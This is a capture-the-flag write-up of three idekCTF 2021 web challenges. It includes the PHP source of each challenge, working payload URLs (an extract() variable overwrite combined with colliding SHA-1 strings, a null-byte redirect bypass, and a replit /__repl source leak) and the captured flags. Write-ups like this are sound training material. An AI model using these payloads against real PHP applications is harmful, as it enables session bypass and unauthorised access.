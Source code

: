# idekCTF-2021
* Category: Web 
* Name: Cookie-and-milk
* Level: None 
* The challenges only main page and included php source
![Main function](Cookie-and-milk/1.PNG)
# Source Code Analysis
```c
include(__DIR__."/lib.php");
extract($_GET);

if ($_SESSION['idek'] === $_COOKIE['idek'])
{
    echo "I love c0000000000000000000000000000000000000kie";
}

else if ( sha1($_SESSION['idek']) == sha1($_COOKIE['idek']) )
{
    echo $flag;
}

show_source(__FILE__);
?>
```
* The source code nothing special i attention `extract($_GET);` i explained this function, a function named extract() to take all provided GET and POST requests and assign them to internal variables.This function will overwrite any previously defined variables, including server variables.if you want get the flag, the session must equals the cookie `$_SESSION['idek'] == $_COOKIE['idek']`, but this line of code `else if ( sha1($_SESSION['idek']) == sha1($_COOKIE['idek']) )` used `==` it's called `Loose Comparison` lead to bugs or vulnerability exploit.

# Solution
* I used [SHA1](https://github.com/spaze/hashes/blob/master/sha1.md) in this github repo all strings have different values but when encrypt sha1 and loose compare it will return true 
# Payload 
```c
http://cookie-and-milk.rf.gd/?_SESSION[idek]=aa3OFF9m&_COOKIE[idek]=w9KASOk6Ikap&i=1
```
# FLAG
![Main function](Cookie-and-milk/2.PNG)
* `idek{C0okie_s1ea1ing_1s_c0ol!!!}`

# Memory-of-PHP
* Techniques: `CRLF`
* in this challenges similar challenges above it's included php source 
![Main function](Memory-of-PHP/1.PNG)
# Source Code Analysis
```c
<?php

include(__DIR__."/lib.php");
$check = substr($_SERVER['QUERY_STRING'], 0, 32);
if (preg_match("/best-team/i", $check))
{
    echo "Who is the best team?";
}
if ($_GET['best-team'] === "idek_is_the_best")
{
    echo "That a right answer, Here is my prize, <br>";
    echo $flag;
}
show_source(__FILE__);
?>
```
* I attention line of code `if ($_GET['best-team'] === "idek_is_the_best")`, if `best-team` equals `idek_is_the_best` it will print `That a right answer, Here is my prize` after that you must bypass success and server return flag for you
# Solution
```c
http://memory-of-php.rf.gd/?best-team=idek_is_the_best
```

![Main function](Memory-of-PHP/2.PNG)
* Now i access `/secure-bypass.php` i have new source, my target bypass then get flag

![Main function](Memory-of-PHP/3.PNG)
* Let's source code analysis 
* First line of code `if (isset($_GET['url'][15]))` parameter `url` with `GET` method and string length require 15 characters
* Seconds line of code `header("location: {$_GET['url']}");` will redirect url you input but in this challenges i realized can used `CRLF` or `nullbyte` for bypass
* I found blog instruction this techniques [CRLF (%0D%0A) Injection](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a)
# Payload
```c
http://memory-of-php.rf.gd/secure-bypass.php?url=d4rkp0w4rrrrrrrr%00
```
# FLAG
![Main function](Memory-of-PHP/4.PNG)
* `idek{nu11_by1e_bypass1ng_1s_C0ol!_ftw_br0!!!!}`
# Sourceless-Guessy-Web
* The challenges only main page
![Main function](Sourceless-Guessy-Web/1.PNG)
* I access `robots.txt` server return `replit.com`
![Main function](Sourceless-Guessy-Web/2.PNG)
* I think this challenges involve `replit` i used `dirsearch` but it's nothing 
![Main function](Sourceless-Guessy-Web/3.PNG)
* I found a tutorial about `replit` if you add a `/__repl` to the url you'll get redirected to the source repl.
# Payload
```c
https://sgw.chal.imaginaryctf.org/__repl
```
* Well, finally i have a flag =))))
# Flag
![Main function](Sourceless-Guessy-Web/4.PNG)
* `idek{why_do_people_keep_st0ring_secrets_0n_replit_w1th0ut_3nv}`

